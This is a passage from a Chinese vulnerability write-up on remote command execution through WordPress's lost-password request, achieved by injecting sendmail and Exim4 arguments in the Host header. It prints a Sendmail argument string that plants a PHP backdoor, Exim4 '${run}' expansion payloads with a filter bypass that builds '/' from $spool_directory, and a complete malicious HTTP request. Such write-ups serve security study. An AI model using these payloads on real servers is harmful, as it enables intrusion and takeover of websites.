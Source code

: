 成功绕过了限制并增加了参数。

### 3.3 &emsp;尝试通过Sendmail MTA执行命令 ###

之前已知的命令执行依赖server端使用的Sendmail MTA，比如使用如下参数写日志文件达到写shell的目的： -OQueueDirectory=/tmp/ -X/var/www/html/backdoor.php

这里有两个问题  

1. Sendmail 是linux MTA里使用量最小的MTA 
2. 大写会被转换成小写，导致大写参数无法正常使用

### 3.4 &emsp;通过Exim4 MTA执行命令 ###

作者发现通过Exim4 MTA可以实现命令执行，而且使用量在linux中数一数二，增加了漏洞的利用成功率。

可执行命令的形式如下：

	sendmail -be '${run{/bin/true}{true}{false}}'	

返回true -be参数使用了扩展字符串模式，会执行/bin/true并根据exit code返回括号中的内容

如下命令：

	sendmail -be '${run{/bin/bash -c "id"}{yes}{no}}'

会执行id命令

注意:在使用Exim4 MTA的系统中，/usr/sbin/sendmail是exim4的软链接

然而又不允许 `/`，作者通过`sendmail -be '${substr{0}{1}{$spool_directory}}'`从系统变量中抽取了`/`,最后拼接了可以在命令行下使用的payload。

执行如下语句

	sendmail -be '${run{/usr/bin/touch /tmp/test}}'

需要改成

	sendmail -be '${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch ${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}test}}'  

发送包：

	POST /wordpress/wp-login.php?action=lostpassword HTTP/1.1  
	Host: xenial(tmp1 -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch ${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}test}}  tmp2)

获得变量

	Arg no. 0 == [/usr/sbin/sendmail]  
	Arg no. 1 == [-t]  
	Arg no. 2 == [-i]  
	Arg no. 3 == [-fwordpress@xenial(tmp1]  
	Arg no. 4 == [-be]  
	Arg no. 5 == [${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch]  
	Arg no. 6 == [${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}test}}]  
	Arg no. 7 == [tmp2)]  
